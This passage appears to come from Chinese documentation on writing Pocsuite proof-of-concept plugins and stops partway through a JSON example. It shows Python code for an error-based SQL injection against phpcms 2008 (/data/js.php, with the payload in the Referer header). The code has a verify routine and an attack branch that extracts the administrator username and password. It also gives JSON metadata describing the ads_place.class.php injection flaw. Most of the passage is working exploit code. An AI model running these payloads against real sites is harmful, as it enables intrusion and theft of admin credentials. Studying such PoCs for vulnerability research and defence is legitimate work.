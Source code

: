 ```
            if match_result:
                result['AdminInfo'] = {}
                result['AdminInfo']['Username'] = match_result.group(1)
                result['AdminInfo']['Password'] = match_result.group(2)
        return self.parse_attack(result)

    def _verify(self):
        result = {}
        vulurl = urlparse.urljoin(self.url, '/data/js.php?id=1')
        payload = "1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2), md5(1))a from information_schema.tables group by a)b), '0')#"
        head = {
            'Referer': payload
        }
        resp = req.get(vulurl, headers=head)
        if resp.status_code == 200 and 'c4ca4238a0b923820dcc509a6f75849b' in resp.content:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = vulurl
            result['VerifyInfo']['Payload'] = payload

        return self.parse_attack(result)

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)
```

#### PoC json 代码示例<a id="jsonexample"></a>

[phpcms_2008_/ads/include/ads_place.class.php_sql注入漏洞](http://www.seebug.org/vuldb/ssvid-62274) PoC:

由于json不支持注释,所以具体字段意义请参考上文，涉及到的靶场请自行根据Seebug漏洞详情搭建。

```
{
    "pocInfo": {
        "vulID": "62274",
        "version":"1",
        "vulDate":"2011-11-21",
        "createDate":"2015-09-15",
        "updateDate":"2015-09-15",
        "name": "phpcms_2008_ads_place.class.php_sql-inj",
        "protocol": "http",
        "vulType": "SQL Injection",
        "author": "Medici.Yan",
        "references": ["http://www.seebug.org/vuldb/ssvid-62274"],
        "appName": "phpcms",
        "appVersion" : "2008",
        "appPowerLink":"http://www.phpcms.cn",
        "desc" :"phpcms 2008 中广告模块，存在参数过滤不严，导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，如果关闭了错误显示，可以采用基于时间和错误的盲注",
        "samples": ["http://127.0.0.1"]
    },

    "pocExecute":{
        "verify": [
            {
```
